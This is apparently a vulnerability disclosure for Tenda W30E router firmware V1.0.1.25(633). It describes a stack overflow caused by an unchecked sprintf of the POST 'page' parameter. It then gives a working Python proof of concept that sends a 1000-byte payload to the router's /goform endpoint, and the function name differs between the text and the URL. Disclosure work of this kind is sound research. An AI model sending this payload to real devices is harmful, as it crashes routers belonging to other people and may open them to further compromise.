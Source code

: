 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability located in the `frmL7PlotForm` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v10, "firewall_proto_list.asp?page=%s", v11);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240409103523512](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103523512.png)

![image-20240409103507530](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103507530.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/frmL7ProtForm"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409103000348](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409103000348.png)